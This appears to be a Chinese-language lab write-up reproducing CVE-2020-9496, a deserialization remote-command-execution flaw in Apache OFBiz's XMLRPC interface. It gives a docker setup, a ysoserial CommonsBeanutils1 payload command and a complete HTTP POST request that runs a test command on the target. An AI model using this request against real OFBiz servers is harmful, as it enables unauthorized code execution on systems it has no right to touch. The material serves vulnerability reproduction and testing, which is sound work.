 # Apache OfBiz 反序列化命令执行漏洞（CVE-2020-9496）

Apache OFBiz是一个非常著名的电子商务平台，是一个非常著名的开源项目，提供了创建基于最新J2EE/XML规范和技术标准，构建大中型企业级、跨平台、跨数据库、跨应用服务器的多层、分布式电子商务类WEB应用系统的框架。 OFBiz最主要的特点是OFBiz提供了一整套的开发基于Java的web应用程序的组件和工具。包括实体引擎, 服务引擎, 消息引擎, 工作流引擎, 规则引擎等。

其17.12.04版本之前的XMLRPC接口存在一处反序列化漏洞，攻击者利用这个漏洞可以在目标服务器上执行任意命令。

参考链接：

- https://securitylab.github.com/advisories/GHSL-2020-069-apache_ofbiz
- https://github.com/dwisiswant0/CVE-2020-9496
- https://www.cnblogs.com/ph4nt0mer/p/13576739.html

## 漏洞环境

执行如下命令启动一个Apache OfBiz 17.12.01版本：

```
docker-compose up -d
```

在等待数分钟后，访问`https://your-ip/myportal/control/main`查看到登录页面，说明环境已启动成功。

## 漏洞复现

由于默认情况下没有报错信息，所以使用[参考连接2](https://github.com/dwisiswant0/CVE-2020-9496)中给出的方法无法正确判断漏洞是否存在，还是需要通过执行反序列化来复现漏洞。

使用[ysoserial](https://github.com/frohoff/ysoserial)的CommonsBeanutils1来生成Payload：

```
java -jar ysoserial.jar CommonsBeanutils1 "touch /tmp/success" | base64
```

![](1.png)

将base64后的payload替换并发送如下数据包：

```
POST /webtools/control/xmlrpc HTTP/1.1
Host: your-ip
Content-Type: application/xml
Content-Length: 4093

<?xml version="1.0"?>
<methodCall>
  <methodName>ProjectDiscovery</methodName>
  <params>
    <param>
      <value>
        <struct>
          <member>
            <name>test</name>
            <value>
              <serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions">[base64-payload]</serializable>
            </value>
          </member>
        </struct>
      </value>
    </param>
  </params>
</methodCall>
```

![](2.png)

进入容器中，可见`touch /tmp/success`已成功执行：

![](3.png)